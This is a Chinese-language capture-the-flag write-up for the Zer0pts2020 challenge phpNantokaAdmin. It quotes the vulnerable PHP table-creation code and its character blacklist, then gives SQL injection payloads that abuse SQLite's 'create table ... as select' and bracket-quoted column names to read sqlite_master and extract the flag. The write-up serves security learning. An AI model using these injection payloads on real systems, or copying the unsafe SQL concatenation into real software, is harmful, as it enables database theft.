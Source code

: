 # \[Zer0pts2020]phpNantokaAdmin

## \[Zer0pts2020]phpNantokaAdmin

## 考点

* sqlite3 select特性
* sqlite3建表语法

## wp

题目功能流程如下

![](<../.gitbook/assets/image (30).png>)

填参数，点下一步，最后的请求是向/?page=create发送 POST请求，请求内容如下

```
table_name=test&columns[0][name]=testa&columns[0][type]=INTEGER
```

然后请求/?page=index，来到插入数据的页面

![](<../.gitbook/assets/image (4).png>)

向/?page=insert发送POST请求，内容如下

```
values[]=1&values[]=2&values[]=3
```

然后请求/?page=index

![](<../.gitbook/assets/image (33) (1) (1).png>)

那么后台的语句可能如下

```sql
CREATE TABLE test(
   dummy1 TEXT,
   dummy2 TEXT,
   testa INTEGER,
);

INSERT INTO test (dummy1,dummy2,testa) 
          VALUES ('1', '2', 3);
```

但是`testa`那个字段输入字母也会成功插入

![](<../.gitbook/assets/image (1).png>)

然后找信息，啥都没找到，直接用BUU给的代码吧

三个文件，config.php定义flag位置，`flag_bf1811da`表的`flag_2a2d04c3`字段

util.php存放自定义函数，index.php实现路由和视图功能

先说自定义的函数，`redirect($path)`调用header函数进行重定向页面，`flash($message, $path = '?page=index')`向session中写入信息，`e($string)`把string使用`htmlspecialchars($string, ENT_QUOTES)`进行转义，只编码双引号和单引号，`is_valid($string)`判断输入是否含有如下字符

```
["#'()*,\/\\`-]
```

然后index.php，全部采用pdo的方式操作数据库

如果session中存在database字段，就返回`flag_bf1811da`表和`flag_2a2d04c3`字段

insert部分就直接使用insert语句插入POST的values数组，delete是直接清空session，新建一个空白的session

看新建表的地方

要输入表名和列名，只有表名被强制转换为字符串，然后是对表名和列名的限制

```php
  $table_name = (string) $_POST['table_name'];
  $columns = $_POST['columns'];
  $filename = bin2hex(random_bytes(16)) . '.db';
  $pdo = new PDO('sqlite:db/' . $filename);
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }
```

最后是SQL语句的拼接

```php
  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

最终SQL执行顺序

```
CREATE TABLE `FLAG_TABLE` (`FLAG_COLUMN` TEXT);
INSERT INTO `FLAG_TABLE` VALUES ("FLAG");
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT, `$column` $type);
```

可控点就是table\_name、column和type

payload

```
table_name=aaaa+as+select+[sql][&columns%5B0%5D%5Bname%5D=]from+sqlite_master;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [sql] from sqlite_master;`

![](<../.gitbook/assets/image (24).png>)

payload

```
table_name=aaaa+as+select+[flag_2a2d04c3][&columns%5B0%5D%5Bname%5D=]from+flag_bf1811da;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [flag_2a2d04c3] from flag_bf1811da;`

![](<../.gitbook/assets/image (11).png>)



## 小结

1. sqlite3在select时，如果列使用`[]`、`""`、` `` `包裹时会自动忽略这些符号之后的列名
2. sqlite3可以使用`create table ... as select ... from ...` 来复制表
